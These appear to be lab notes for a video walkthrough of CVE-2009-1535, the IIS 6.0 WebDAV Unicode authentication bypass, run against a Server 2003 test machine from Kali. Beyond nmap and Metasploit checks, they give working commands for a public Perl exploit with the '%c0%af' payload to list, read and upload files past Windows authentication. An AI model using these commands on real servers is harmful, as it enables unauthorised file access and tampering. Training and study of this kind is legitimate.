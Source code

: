 
CVE-2009-1535  |  IIS 6.0 WebDAV Unicode Authentication Bypass (Part 1)

Part1: https://www.youtube.com/watch?v=DRxaEvuwQbA
Part2: 

--------------

IIS 6.0 WebDAV Unicode Authentication Bypass

CVE-2009-1535
https://www.cvedetails.com/cve/CVE-2009-1535/
https://www.rapid7.com/db/modules/auxiliary/scanner/http/dir_webdav_unicode_bypass

--------------

**** Part 1 ****

1. On Server 2003 machine, create the following folder structure:

C:\demo1\demo11\secret111.txt
C:\demo2\demo22\secret222.txt

2. Enable WebDAV...

Default Web Site > New > Virtual Directory > Alias => intranet1
Default Web Site > New > Virtual Directory > Alias => intranet2

Web Site Properties > Home Directory > Read + Write + Directory browsing 
		    > Directory Security > Authentication Method > only Windows Authenticated Users can access this 

3. Testing authentication method

Try to access the website/file on victim machine
http://192.168.50.3/intranet1/demo1/demo11/secret111.txt

Try to access the website/file from Kali machine
http://192.168.50.3/intranet2/demo2/demo22/secret222.txt

4. Use the following scripts to check the vulnerability

Option 1: using Nmap

> nmap --script http-iis-webdav-vuln -p 80 192.168.50.3

Need to add "intranet1" + "intranet2" manually into the dictionary file

> nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet1 -p 80 192.168.50.3
> nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet2 -p 80 192.168.50.3

Option 2: using Metasploit module

msf> use auxiliary/scanner/http/dir_webdav_unicode_bypass

Need to add "intranet1" + "intranet2" manually into the dictionary file

> echo intranet1 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
> echo intranet2 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt

////////////////

Why does Directory traversal attack %C0%AF work?
https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work

////////////////

**** Part 2 ****

5. Exploit

https://www.exploit-db.com/exploits/8806/

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af

> path

Copy XML content to temp.html > open with Web browser

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt

> source

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt

> put  =>  /root/pm.txt

Try to access that file from local/remote machine (my_file.txt)

http://192.168.50.3/intranet1/demo1/demo11/my_file.txt


